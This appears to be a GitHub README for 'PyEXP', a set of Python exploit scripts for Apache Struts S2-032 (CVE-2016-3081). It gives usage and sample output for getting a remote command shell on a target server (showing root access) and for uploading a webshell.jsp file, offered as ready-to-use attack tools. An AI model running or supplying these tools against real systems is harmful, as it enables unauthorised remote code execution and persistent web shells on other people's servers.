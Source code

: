 # PyEXP
The EXP coding by python,and I'll publish the popular EXP here.<br>

##s2-032_cmd.py

USG:<br>
python s2-032_cmd.py http://x.y.z/*.action<br>
use '\q' to exit the shell

##s2-032_all.py

usage: s2-032_all.py [-h] [--cmd] [--url URL] [-f FILENAME] [-d SHELLNAME]<br>

CVE-2016-3081 | Apache Struts S2-032<br>

optional arguments:
  -h, --help    show this help message and exit<br>
  --cmd         drop into shell-like RCE<br>
  --url URL     specifiy the url of the target<br>
  -f FILENAME   specifiy loacl filename of the file you want to upload<br>
  -d SHELLNAME  specifiy remote filename upload on the server<br>
  
  use it like this:<br>
  python s2-032_all.py --cmd --url http://localhost/hello.action<br>
  \# whoami<br>
  root<br>
  \# \q<br>
  Bye!<br>
  
  python s2-032_all.py -f wanger.txt -d webshell.jsp --url http://localhost/hello.action<br>
  File upload success!<br>
  http://localhost/webshell.jsp<br>
  

